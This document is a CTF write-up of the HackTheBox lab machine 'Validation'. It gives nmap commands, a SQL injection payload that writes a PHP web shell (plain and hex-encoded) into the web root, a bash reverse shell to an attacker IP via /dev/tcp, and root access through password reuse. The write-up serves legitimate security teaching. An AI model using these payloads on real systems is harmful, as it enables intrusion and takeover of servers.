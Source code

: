 ```yaml
---
title: Validation
date: 2023-10-23 14:11:00 +0200
categories: [Writeups, HackTheBox]
tags: [sqli, rce]
img_path: /assets/images/Validation
---
```



This machine is an easy HTB machine, which shows a registration form to join the UHC qualifiers. It has a SQL injection vulnerability, which will allow us to upload a custom file with some PHP code to run shell commands in the machine. Once inside the machine, we will be able to read a password and switch to the root user.

----------------------

## Enumeration

The IP of the machine is 10.10.11.116. We will run **nmap** to discover open ports:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG allPorts
```

![open ports](open-ports.png)

Let's gather more information about these ports using nmap again. We will run this command, which will try to identify services and versions running on those ports:

```bash
sudo nmap -sCV -p22,80,4566,8080 -oN targeted
```

Once the scan finishes, we can see the output in the file `targeted`:

![scan results](targeted.png)

As we don't have any credentials, and the pages on ports 4566 and 8080 are not available, let's dive into port 80.

When we visit the webpage, we are presented with this:

![webpage](webpage.png)

## Shell as www-data and user flag

If we try to register a username, for instance, `manbolq` and press "Join now", we will be redirected to this webpage:

![account webpage](account.png)

This starts looking juicy. It seems to show all the users that are registered for Brazil. Let's register another user and intercept the request with **BurpSuite**:

![burpsuite](burpsuite.png)

The query used to show all the users in a country, may be like the following:

```sql
SELECT username FROM users WHERE country=<contry>
```

If the `country` parameter is not properly sanitized, we may be able to inject some malicious code. Let's try to change the country parameter to the following:

```
country=Brazil' union select '<?php system($_GET["cmd]); ?>' into outfile '/var/www/html/cmd.php'-- -
```

After sending the request, we can see that we get a cookie. If we set that cookie in out browser, this is what we'll see:

![error webpage](error.png)

We see an error in the PHP file, so the SQL injection looks promising. If we browse to the `cmd.php` endpoint, we see that there is no file. Maybe if we try to change the PHP code to hexadecimal it will work. Let's give it a try. We can execute this command:

```bash
echo -n '<?php system($_GET["cmd]); ?>' | xxd -p -u
```

and we will get the hexadecimal string: `0x3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E`. Let's try to send this query now:

```
country=Brazil' union select 0x3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E into outfile '/var/www/html/cmd.php'-- -
```

If we set the new cookie, and browse the web, we'll still get the same error. However, if we go to the `cmd.php` endpoint...

![cmd](cmd.png)

Yay! We created the file. We can now use the `cmd` parameter through GET requests to execute arbitrary commands. For example, if we try to execute `id`:

![id](id.png)

There it is. We are the user www-data. Let's try to get a reverse shell!

![revshell](revshell.png)

> I've visited the URL: http://10.10.11.116/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.18/443%200%3E&261%22. **We have to urlencode some characters**
{: .prompt-info }

If we cd into `/home/htb`, we can read the **user flag**.

![user flag](user.png)

## Privilege escalation

We are in the `/var/www/html/` directory. If we execute the `ls` command, we'll see a file called `config.php`. Let's take a look at it:

![config](config.png)

It looks like the config file to connect to the database instance. We see an username and a password. We may try to change to root user using that password, because there might credentials reuse:

![root](root.png)

And yep, definately. So now we are root and we can read the flag under the `/root` directory.

This is all for the machine Validation. I hope you found it useful!
